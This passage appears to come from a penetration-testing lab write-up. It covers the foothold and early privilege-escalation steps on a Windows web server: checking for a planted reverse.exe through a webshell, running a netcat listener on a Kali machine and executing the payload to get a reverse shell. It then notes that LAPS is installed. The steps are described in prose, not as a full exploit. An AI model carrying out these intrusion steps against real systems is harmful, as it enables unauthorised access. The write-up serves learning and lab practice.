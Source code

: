 #### -Typed "dir C:\inetpub\wwwroot\" to confirm the reverse shell payload was on the target machine

![](Images/Pasted%20image%2020221019011821.png)

#### -Ran a netcat listener on port 593 on kali machine

#### -Typed "C:\inetpub\wwwroot\reverse.exe" on the webshell and received a reverse shell:

![](Images/Pasted%20image%2020221019012059.png)

---

# Privilege Escalation
## Local Enumeration

#### -Navigated to "c:\Program Files" directory and shows that Microsoft's _Local Administrator Password Solution (LAPS) is installed:
